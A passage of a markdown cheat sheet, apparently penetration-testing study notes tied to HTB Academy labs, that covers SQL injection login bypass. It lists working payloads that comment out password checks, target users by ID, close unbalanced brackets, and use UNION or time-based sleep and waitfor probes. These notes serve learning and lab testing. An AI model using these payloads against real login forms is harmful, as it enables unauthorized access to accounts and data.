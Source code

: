 **Scenario 3: Targeting Specific ID (HTB Academy)**
```sql
-- Original: SELECT * FROM logins WHERE (username='USER' AND id > 1) AND password='hash';
-- Goal: Login as user with specific ID (e.g., ID=5)

-- Injection: ' OR ID=5)-- -
-- Result: SELECT * FROM logins WHERE (username='' OR ID=5)-- - AND id > 1) AND password='hash';
-- Final: SELECT * FROM logins WHERE (username='' OR ID=5)
-- ✅ Works: Returns user with ID=5, bypassing all other conditions

-- Variations for different IDs:
' OR ID=1)-- -     # Target user with ID 1
' OR ID=3)-- -     # Target user with ID 3  
' OR ID=5)-- -     # Target user with ID 5 (HTB Academy example)
```

**Scenario 4: Multiple Conditions**
```sql
-- Original: SELECT * FROM logins WHERE username='admin' AND password='hash' AND status='active';
-- Injection: admin'-- -
-- Result: SELECT * FROM logins WHERE username='admin'-- ' AND password='hash' AND status='active';
-- ✅ Works: All additional conditions ignored
```

#### Troubleshooting Syntax Errors
```sql
-- Error: "You have an error in your SQL syntax"
-- Cause: Unbalanced parenthesis, quotes, or brackets

-- Common fixes:
admin')-- -     # Close one parenthesis
admin'))-- -    # Close two parentheses  
admin']-- -     # Close square bracket
admin'}-- -     # Close curly bracket (rare)
admin'"-- -     # Close quote mismatch
```

### Advanced Auth Bypass
```sql
-- Multiple conditions
admin' or 1=1 limit 1-- -
admin' or 1=1 limit 1 offset 0-- -

-- Using UNION
admin' UNION SELECT 1,1,'admin','password'-- -

-- Time-based confirmation
admin' or (select sleep(5))-- -
admin'; waitfor delay '0:0:5'-- -
```

---

## UNION Injection
